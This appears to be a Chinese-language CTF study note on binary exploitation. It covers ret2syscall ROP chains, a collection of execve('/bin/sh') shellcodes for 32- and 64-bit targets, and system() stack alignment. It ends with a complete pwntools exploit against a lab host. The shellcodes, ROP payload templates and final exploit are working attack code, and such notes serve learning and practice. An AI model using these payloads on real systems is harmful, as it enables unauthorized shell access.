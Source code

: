 1.ret2syscall
==

介绍#
-
控制程序执行系统调用，获取 shell

判断#
-
如果没有system和开启了NX（栈不可执行）保护可以用（有system最好用ret2text，方便省事，没开NX直接ret2shellcode）

步骤#
-

32位和64位的syscall原理都是一样，只有传参和调用存在差异，以下一起说，做个对比。<br>

    32位系统调用使用 " int 80h "
    64位系统调用使用 " syscall " （汇编代码就是syscall 直接ROPgadget--only查找即可）
    
32的系统调用号与64位的不大一样 使用的时候最好百度一下

    32位     #define __NR_execve 11
    64位     #define __NR_execve 59   （0x3b）

32位的系统调用号放在eax 传参依次是 **EBX、ECX、EDX、ESI、EDI、EBP**   <br>
64位的系统调用号放在rax 传参依次是 **RDI、RSI、RDX、R10、R8、R9**  （和64位函数传参一样）<br>


构造ROP chain:<br>
①没有/bin/sh字眼 只能自己加到bss区域，然后调用execve("/bin/sh",NULL,NULL)<br>
查找bss：<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/7b7d482f-4c63-46f8-9917-d568ac11ab05)
<br>

②有/bin/sh，溢出成功后，通过寻找特定的寄存器，以寄存器承载特定的数据，构造 execve(“/bin/sh”,NULL,NULL) 的汇编实现，将其部署栈中，劫持控制流实现获取 shell。
<br>
如何构造汇编实现？(64bit)

    execve("/bin/sh",NULL,NULL)
    系统调用号，rax为59
    第一个参数，rdi指向/bin/sh
    第二个参数，为0
    第三个参数，为0
    第四个参数，为0
    第五个参数，rsi为0
    payload = "A"*offset(偏移量) + flat(rdi,bin_sh,rax_rdx_rbx,59,0,0,rsi,0,syscall)

查找各寄存器地址：

```
ROPgadget --binary ret2syscall --only "syscall|ret"
ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'rdx'    #rdx=0x000000000040168b
```

![image](https://github.com/xhsy0314/Task/assets/84487619/6979353a-b56c-4ae4-9739-a244bad2fc38)


2.shellcode
==

shellcode收集：(持续补充)

```
# 32位 短字节shellcode --> 21字节
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

# 32位 纯ascii字符shellcode
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA

# 32位 scanf可读取的shellcode
\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh

# 64位 scanf可读取的shellcode 22字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05

# 64位 较短的shellcode  23字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05

# 64位 纯ascii字符shellcode
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```

```
shellcode=""
io.sendline(shellcode)
```

3.system函数参数非/bin/sh (64位)
-

```
__int64 dofunc()
{
  __int64 buf; // [rsp+8h] [rbp-8h] BYREF

  buf = 0LL;
  puts("input:");
  read(0, &buf, 0x100uLL);
  return 0LL;
}
```

buf栈溢出，动态调试计算能够输入的长度:

```
gdb file
b main
r
n    ---步过，直到执行到某个函数
s    ---进入该函数
n    ---直到回车后提示输入数据
随便输入一些数据
stack 24    ---查看栈情况
```

![image](https://github.com/xhsy0314/Task/assets/84487619/87c3d24b-8fa0-4954-8c7b-2d581f2feb08)<br>

rbp-rsi之间就是buf中能够输入数据的长度，也是填充数据的长度，这里是0x10-0x8=8.<br>
然后还需要填充8个字节的数据，因为rbp占8个字节。也就是一共填充16个垃圾数据。<br>

易忽略的点：**64位程序中的system函数的栈对齐问题**

1、将system函数地址+1，此处的+1，即是把地址+1，也可以理解为<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/eb180202-e2d8-487b-9baf-750facc25279)<br>
本来我们应该是用401186这个地址的，但是我们现在要跳过一条指令，那自然就是用401187，这样就跳过了push rbp这条指令。
2、直接在调用system函数地址之前去调用一个ret指令。因为本来现在是没有对齐的，那我现在直接执行一条对栈操作指令（ret指令等同于pop rip，该指令使得rsp+8，从而完成rsp16字节对齐），这样system地址所在的栈地址就是0结尾，从而完成了栈对齐。<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/d13b7ae2-28d0-452d-a88e-f83db2e3e31c)<br>


因此payload：

```
payload = b'a' * offset # 溢出大小
payload += p64(ret) # ret地址
payload += p64(pop rdi) # pop rdi地址
payload += p64(binsh) # /bin/sh字符串地址
payload += p64(sys) # _system函数地址
```

其中ret地址就是上图中的0x401198.<br>
pop rdi：
```
ROPgadget --binary find_sh --only 'pop|ret' | grep 'rdi' 
```
![image](https://github.com/xhsy0314/Task/assets/84487619/e8b3f0a0-9b54-4d6f-9341-a4490d350efd)<br>

binsh:<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/9a492389-2b47-49b4-a542-93f3e9e6a615)
<br>

system:<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/9af975e0-7e9f-4da9-8083-81dcd2d039ca)<br>

完整exp：

```
from pwn import *
							
#p=process("./stack_overflow")
io=remote("10.140.32.159",48126)

binsh=0x404040
sys=0x401070
ret=0x401198
poprdi=0x0000000000401253
#p64(0x0000000000401198) +
payload= b'A'*8 +b'B'*8 +p64(ret)+p64(poprdi)+p64(0x404040)+ p64(sys)

io.sendline(payload)
io.interactive()
```


